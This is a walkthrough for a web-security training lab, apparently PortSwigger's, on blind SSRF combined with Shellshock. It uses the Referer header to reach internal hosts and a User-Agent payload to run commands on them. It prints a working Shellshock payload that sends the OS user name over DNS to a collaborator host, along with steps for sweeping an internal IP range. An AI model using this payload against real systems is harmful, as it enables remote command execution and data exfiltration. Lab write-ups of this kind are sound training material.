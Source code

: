 # Lab 7: Blind SSRF with Shellshock exploitation

This site uses analytics software which fetches the URL specified in the Referer header when a product page is loaded.

To solve the lab, use this functionality to perform a blind SSRF attack against an internal server in the `192.168.0.X` range on port `8080`. In the blind attack, use a Shellshock payload against the internal server to exfiltrate the name of the OS user.

## Solution
> Manual Exploitation
1. In Burp Suite Professional, install the "Collaborator Everywhere" extension from the BApp Store.
2. Add the domain of the lab to Burp Suite's target scope, so that Collaborator Everywhere will target it.
3. Browse the site.
4. Observe that when you load a product page, it triggers an HTTP interaction with Burp Collaborator, via the Referer header.
5. Observe that the HTTP interaction contains your User-Agent string within the HTTP request.
6. Send the request to the product page to Burp Intruder.
7. Go to the Collaborator tab and generate a unique Burp Collaborator payload. Place this into the following Shellshock payload:
```
() { :; }; /usr/bin/nslookup $(whoami).BURP-COLLABORATOR-SUBDOMAIN
```
8. Replace the User-Agent string in the Burp Intruder request with the Shellshock payload containing your Collaborator domain.
9. Click "Clear §", change the Referer header to http://192.168.0.1:8080 then highlight the final octet of the IP address (the number 1), click "Add §".
10. Switch to the Payloads tab, change the payload type to Numbers, and enter 1, 255, and 1 in the "From" and "To" and "Step" boxes respectively.
11. Click "Start attack".
12. When the attack is finished, go back to the Collaborator tab, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again, since the server-side command is executed asynchronously. You should see a DNS interaction that was initiated by the back-end system that was hit by the successful blind SSRF attack. The name of the OS user should appear within the DNS subdomain.
13. To complete the lab, enter the name of the OS user.

## Video Solution
- [Rana Khalil's Video](https://youtu.be/k84FLMFtuE4)
- [Sommer's Video](https://youtu.be/eW4QDUytHrY)
